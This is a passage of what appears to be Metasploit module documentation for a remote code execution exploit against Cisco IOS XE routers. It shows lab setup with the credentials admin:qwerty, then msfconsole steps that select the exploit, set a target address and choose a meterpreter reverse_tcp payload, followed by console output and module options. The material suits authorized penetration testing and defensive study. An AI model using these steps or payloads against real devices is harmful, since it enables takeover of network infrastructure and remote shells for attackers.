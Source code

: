     Router(config)#ip http server
    router(config)#ip http secure-server
    router(config)#ip http authentication local
    router(config)#username admin privilege 15 secret qwerty
    router(config)#exit
    Router#copy running-config startup-config
    ```
  * You should now be able to access the WebUI via https://TARGET_IP_ADDRESS/webui and login with admin:qwerty

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/misc/cisco_ios_xe_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
6. `check`
7. `exploit`

## Options

### CISCO_VRF_NAME
We allow a user to specify the VRF name to route traffic for the payloads network transport. The default of
'global' should work, but exposing this as an option will allow for usage in more complex network setups.
A user could leverage the auxiliary module auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198 to
inspect a devices configuration to see an appropriate VRF to use.

### CISCO_CMD_TIMEOUT
We may need to try and execute a command a second time if it fails the first time. This option is the maximum
number of seconds to keep trying.

## Scenarios
To support a broad set of available payloads, we support both a Linux target and a Unix Target (IOS XE is Linux based).
This allows for native Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Linux Command (IOS XE 17.3.2)

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set RHOSTS 192.168.86.113
RHOSTS => 192.168.86.113
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set target 0
target => 0
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > show options

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
```
